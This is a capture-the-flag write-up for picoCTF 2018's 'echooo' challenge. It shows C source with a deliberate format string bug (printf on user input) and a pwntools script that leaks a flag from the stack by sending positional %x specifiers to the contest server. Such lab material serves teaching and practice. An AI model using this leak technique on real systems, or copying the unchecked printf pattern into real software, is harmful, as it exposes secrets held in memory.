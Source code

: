 echooo - Points: 300
===========

## Description

>This program prints any input you give it. Can you leak the flag? Connect with nc 2018shell1.picoctf.com 34802

## Hint:

> * If only the program used puts...

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

## Useful Information

Format String Bug :
> * printf(buf);

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

```python
#!/usr/bin/python2.7
from pwn import *
import time,sys

rem = remote("2018shell3.picoctf.com",34802)
rem.recv(4096)

for x in range(27,42):
    rem.sendline("%%%04d$x" % x)
    sys.stdout.write(rem.recv().split("\n")[0].zfill(8).decode("hex")[::-1])

```

